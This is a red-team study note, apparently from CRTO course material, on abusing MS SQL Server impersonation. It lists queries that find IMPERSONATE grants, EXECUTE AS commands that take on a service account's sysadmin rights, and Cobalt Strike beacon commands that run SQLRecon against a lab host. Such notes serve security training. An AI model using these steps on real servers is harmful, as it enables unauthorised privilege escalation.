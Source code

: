 
MS SQL impersonation, or context switching, is a means which allows the executing user to assume the permissions of another user without needing to know their password.  

Administrators usually use this to facilitate testing scenarios or troubleshooting, giving this permission to a low level account to remediate a quick issue.

Impersonations must be explicitly granted through securable configurations.

#### 🖊️ Investigating the DB

Having access to the MS SQL Server via [[MSSQL Server Enumeration via Cobalt Strike]], you can start querying and discovering if any users are allowed to impersonate:

1) Query the DB for:
`SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';`

Or using Cobalt Strike

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate`

2) If there are any, you will see these values:

`grantor_principal_id` : the account that can be impersonated
`grantee_principal_id` : the account that is allowed to impersonate another one

3) Run this query and you will see a list of names and numbers associated:

`SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;`

4) Instead of an account you could get that an entire group is allowed to impersonate, identify one of the users in there if thats the case and use it as your impersonator.
5) Use `EXECUTE AS` to execute a query in the context of the target, for example:

```
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```

Or using SQLRecon, which has modules that can be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate.

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc`


#### 📔 B


####  📗 C


#### ⚠ Opsec




### Properties
---
📆 created   {{21-02-2024}} 14:45
🏷️ tags: #redteam #crto 

---

